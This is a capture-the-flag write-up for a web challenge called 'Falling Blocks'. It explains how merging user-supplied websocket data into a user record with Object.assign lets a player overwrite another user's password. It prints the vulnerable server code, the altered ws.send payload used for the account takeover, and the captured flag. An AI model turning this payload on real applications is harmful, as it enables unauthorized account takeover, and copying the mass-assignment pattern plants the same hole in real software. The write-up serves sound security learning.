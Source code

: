```yaml
---
title: Falling Blocks
solves: 45
points: 423
created: 2025-04-19T04:32
updated: 2025-04-20T20:27
---
```


We can just cheat directly no?

```js
if (score > 10000) {
    data.score = 0;
}

/////

app.get('/logout', utils.authMiddleware, async (req, res) => {
    if (req.user.username !== await client.HGET(req.user.username, 'username')) {
        return res.json({ "message": "Stop cheating!" });
    }
    const score = await client.HGET(req.user.username, 'score');
    if (score > 10000) {
        return res.json({ "message": process.env.FLAG });
    }
    res.clearCookie("user");
    res.redirect("/login");
});
```

Maybe not, it seems that we can't exactly just get the flag directly by changing our score.

But wait, is that a `Object.assign` I see? With user provided data?

```js
const data = JSON.parse(message);
if (data.type && data.time && data.score) {
    if (data.type === 'gameOver') {
        let score = data.score;

        if (score > 10000) {
            data.score = 0;
        }

        userdata = Object.assign(userdata, data);
        userdata.score = Math.max(userdata.score, await client.HGET(userdata.username, "score"));
        await client.HSET(userdata.username, userdata);
        scoreboard.addScore(userdata.score, userdata.username);
    }
}
```

And we can just edit the `userdata` of any user?

Well that means we can edit their passwords.

```js
if (username !== await client.HGET(username, 'username')) {
    return res.json({ "message": "Stop cheating!" });
}
if (password === await client.HGET(username, 'password')) {
    res.cookie("user", await client.HGET(username, 'tokens'), {
        httpOnly: true
    });
    return res.redirect('/game');
}
```

We can just patch the `game.js` file to send our own data (turn on browser local override).

This is override Ssundae's password to `Ssundae`.

```js [game.js]
ws.send(JSON.stringify({ type: 'gameOver', time: new Date().toLocaleTimeString(), score: score, username: "Ssundae", password: "Ssundae" }));
// alert('Game Over! Score: ' + score);
// document.location.reload();
```

Then we logout and login with `Ssundae` / `Ssundae`, and logout again.

```flag
UMASS{F@lLiNgH@rD_0N_w3bS0cK3ts!437}
```
